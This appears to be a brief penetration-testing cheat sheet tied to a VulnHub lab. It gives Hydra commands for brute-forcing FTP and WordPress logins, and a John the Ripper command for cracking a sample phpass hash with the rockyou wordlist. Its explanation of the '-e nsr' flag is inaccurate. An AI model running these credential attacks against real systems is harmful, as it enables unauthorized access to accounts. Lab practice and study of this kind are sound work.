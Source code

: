 # Bruteforce commands

## Hydra

### FTP 
```
hydra -L usernames.txt -P usernames.txt 192.168.1.6 ftp

hydra -L users.txt -e nsr 192.168.1.6 ftp (nsr -> Using users.txt, bruteforcing the password in the reverse order)

hydra 10.14.100.44 http-form-post "/wp-login.php:user=admin&pass=^PASS^:INVALID" -l admin -P /usr/share/wordlists/rockyou.txt -vV
```

https://medium.com/@bondo.mike/vulnhub-stapler-1-ab928900d614

## John

### Cracking password using wordlist

Here password hash is collected from mysql database
Content of hash.txt
John:$P$B7889EMq/erHIuZapMB8GEizebcIy9.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Output - It identifies password of john from the word list.
